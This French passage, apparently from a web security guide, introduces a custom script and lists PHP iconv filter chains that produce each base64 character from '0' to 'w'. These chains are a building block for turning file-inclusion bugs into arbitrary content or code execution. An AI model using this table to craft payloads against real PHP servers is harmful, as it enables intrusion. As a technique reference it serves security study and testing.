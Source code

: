 Le script précédent est limité aux caractères base64 nécessaires pour cette charge utile. Par conséquent, j'ai créé mon propre script pour **bruteforcer tous les caractères base64** :
```php
conversions = {
'0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
'1': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.OSF1002035D.EUC-KR|convert.iconv.MAC-CYRILLIC.T.61-8BIT|convert.iconv.1046.CSIBM864|convert.iconv.OSF1002035E.UCS-4BE|convert.iconv.EBCDIC-INT1.IBM943',
'2': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO6937.OSF1002011C|convert.iconv.CP1146.EUCJP-OPEN|convert.iconv.IBM1157.UTF8',
'3': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-7.CSISOLATIN3|convert.iconv.ISO-8859-9.CP905|convert.iconv.IBM1112.CSPC858MULTILINGUAL|convert.iconv.EBCDIC-CP-NL.ISO-10646',
'4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
'5': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.RUSCII.IBM275|convert.iconv.CSEBCDICFR.CP857|convert.iconv.EBCDIC-CP-WT.ISO88591',
'6': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-37.MACUK|convert.iconv.CSIBM297.ISO-IR-203',
'7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
'8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
'9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
'a': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSIBM9066.CP1371|convert.iconv.KOI8-RU.OSF00010101|convert.iconv.EBCDIC-CP-FR.ISO-IR-156',
'b': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1399.UCS4',
'c': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.8859_9.OSF100201F4|convert.iconv.IBM1112.CP1004|convert.iconv.OSF00010007.CP285|convert.iconv.IBM-1141.OSF10020402',
'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
'e': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.SHIFT_JISX0213|convert.iconv.IBM1164.UCS-4',
'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
'g': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022CN.CP855|convert.iconv.CSISO49INIS.IBM1142',
'h': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.THAI8.OSF100201B5|convert.iconv.NS_4551-1.CP1160|convert.iconv.CP275.IBM297',
'i': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM943|convert.iconv.CUBA.CSIBM1140',
'j': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.UCS-4BE|convert.iconv.IBM857.OSF1002011C',
'k': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO88594.CP912|convert.iconv.ISO-IR-121.CP1122|convert.iconv.IBM420.UTF-32LE|convert.iconv.OSF100201B5.IBM-1399',
'l': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO90.MACIS|convert.iconv.CSIBM865.10646-1:1993|convert.iconv.ISO_69372.CSEBCDICATDEA',
'm': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.CSSHIFTJIS|convert.iconv.NO2.CSIBM1399',
'n': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM862|convert.iconv.CP860.IBM-1399',
'o': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-6.CP861|convert.iconv.904.UTF-16|convert.iconv.IBM-1122.IBM1390',
'p': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1125.IBM1146|convert.iconv.IBM284.ISO_8859-16|convert.iconv.ISO-IR-143.IBM-933',
'q': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.NC_NC00-10:81.CSIBM863|convert.iconv.CP297.UTF16BE',
'r': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-86.ISO_8859-4:1988|convert.iconv.TURKISH8.CP1149',
's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
't': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.WINDOWS-1251.CP1364|convert.iconv.IBM880.IBM-1146|convert.iconv.IBM-935.CP037|convert.iconv.IBM500.L3|convert.iconv.CP282.TS-5881',
'u': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937:1992.ISO-IR-121|convert.iconv.ISO_8859-7:1987.ANSI_X3.110|convert.iconv.CSIBM1158.UTF16BE',
'v': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.HU.ISO_6937:1992|convert.iconv.CSIBM863.IBM284',
'w': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937-2:1983.857|convert.iconv.8859_3.EBCDIC-CP-FR',
```